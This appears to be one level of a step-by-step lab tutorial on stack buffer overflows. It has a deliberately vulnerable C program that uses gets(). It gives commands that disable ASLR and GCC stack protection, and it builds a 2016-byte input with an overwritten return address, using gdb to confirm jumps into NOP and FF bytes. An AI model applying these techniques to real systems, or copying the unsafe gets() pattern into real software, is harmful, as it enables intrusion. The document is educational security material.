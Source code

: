 # StackOverflow Level 3

> Level 3 and Level Final will be aimed at the holy grail of overflow attaching -- Execute any code you want.

## Goal
1. Setup the experiment environment
2. Try to execute `FF`s in stack, triggering the "invalid instruction" fault
3. Use `NOP` for the first time, and check the solution by `gdb`

## Environment
Different from the previous levels, this level needs us to setup the special experiment environment under Linux. The normal Linux and `gcc` will have some stack attacking prevention facilities on, causing great trouble for any trouble makers.

### Stop memory address randomization
Execute `sysctl -w kernel.randomize_va_space=0` with root privilege in your Linux shell.

Without turning it off, you can play with the following code:

    // Some code
    #include <stdio.h>
    void test(){
      char buf[10];
      printf("The buffer address: %x\n", buf);
    }
    int main(){
      test();
      return 0;
    }


You will find that, the output will differ greatly every time. So, in order to simplify the problem, we will stop Linux kernel to do this protection, i.e., to stabilize the stack. After turning it off, the output in the above program will stay the same.

### Stop stack protection
Execute `sysctl -w kernel.exec-shield=0` with root privilege.

NOTE: However, if you are using the same platform as mine, i.e. Ubuntu 14.04, you will not find this available. Just ignore it in this case.

### GCC stack protection related options:
* `-fno-stack-protector`
* `-z execstack`

The first one is stopping GCC to insert "guard" or "flag" in the stack. If you smashed the stack, the guard would also be smashed. So the program would know the attacking.

The second one is to make code in stack "executable", by linker. By default, executing instruction in stack will cause `segmentation fault`.

## Grab the information
The code to exploit is like fellowing:

    \\test.c
    #include <stdio.h>
    #define BUF_SIZE 2000
    int a = 0;
    int readBuf(){
      char buf[BUF_SIZE];
      gets(buf);
      printf("The address of buffer: %x\n", buf);
      return 0;
    }
    
    void test(){
      readBuf();
      if(a != 1)
      printf("Return normally :(\n");
      else
      printf("haha, you hacked it! :)\n");
    }
    
    int main(){
      test();
      return 0;
    }


We compile it like : `gcc test.c -o0 -fno-stack-protector -z execstack -g -o test`. The `-g` option will attach the symbol table to the program, which will also greatly facilitate the exploiting by `gdb`.

NOTE: The reason why we use such a long buffer, which is 2000 bytes, is that it is closer to the real world buffer setting. People will always suppose that 2000 bytes of buffer is large enough :)

Our goal in this level is pretty simple -- To execute code from the start of our input string. In order to do this, we need to overwrite the return address in the stack as the previous tutorials. But, this time, we needs to set it to the start of buffer in the stack.

We use `gdb` to do some research. After loading the program binary, set breakpoint to `readBuf`. Then `run` directly, we get to the break point:

    40057d:       55                      push   %rbp
    40057e:       48 89 e5                mov    %rsp,%rbp
    400581:       48 81 ec d0 07 00 00    sub    $0x7d0,%rsp

So, we can use `%rsp` after `sub` as the start address of the buffer. You will find that, the start 4 byte of address is __not so obvious__. In Ubuntu, it is `000 00 7f ff`, and it might differ in other platform. So, the return address to append at the end of input would be:

    90 e2 ff ff 
    ff 7f 00 00

So, how long shall our attacking string be? According to the previous knowledge, it should be 2000 + 8 + 8 = 2016 bytes. Quite a long one. So, to generate such a long string easily, we use `perl` here:

     perl -e "print 'FF 'x2008" > string

Now, we can append the forged return address to the end of our prepared string, `hex2raw` it. Then, we can `./test < hex_str`. If you get error `illegal instruction`, you are probably right by hitting the `FF`s. Since there is no good opcode starting with `FF`.

## Check it out
Next, we want to try `NOP` for the first time, and use it to check if our solution makes sense.

First, we will substitute, let's say, 4 bytes of `FF`s at the front of string with `90`s. `0x90` is `NOP` in x86 ISA, which will be directly ignored by CPU.

If our solution makes sense, we will get the same error when we run out of `NOP`s and bumped into `FF`s, but ending at somewhere different from the start of buffer. Did you get it right? You can checkout the `%eip` when error happened in `gdb`.

    0x00007fffffffe294 in ?? ()

Great.